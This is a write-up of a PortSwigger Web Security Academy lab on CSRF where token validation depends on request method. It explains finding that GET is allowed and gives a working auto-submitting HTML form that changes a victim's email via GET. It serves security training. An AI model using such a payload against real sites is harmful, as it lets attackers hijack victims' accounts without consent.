






# Lab: CSRF where token validation depends on request method
 This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

After logging in with the provided credentials we can see the form to change email.  



HTML for the form:  



And the hint given to us in the lab instructions we can use the OPTIONS method to check what methods are in the "Allow" header of the endpoint.  



Now we know that the GET  method is allowed on the endpoint too. Let's try to use this to change our own email first. By sending a GET request with the new email as a parameter in the URL we can change the email.  






Let's create a form that uses the GET method instead and is submitted directly when the script tag and JavaScript is loaded in the browser and deliver to the victim.
```html
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a2c00ab036a298c8104029b007200ca.web-security-academy.net/my-account/change-email" method="GET">
        <label>Email</label>
        <input required type="email" name="email" value="evil%40pwned.com">
        <input required type="hidden" name="csrf" value="OkqRdEPHyc8ZKChfIG1KE9Be8iBAbrgy">
        <button class='button' type='submit'> Update email </button>
    </form>
		<script>
			document.forms[0].submit()
		</script>
</body>
</html>
```


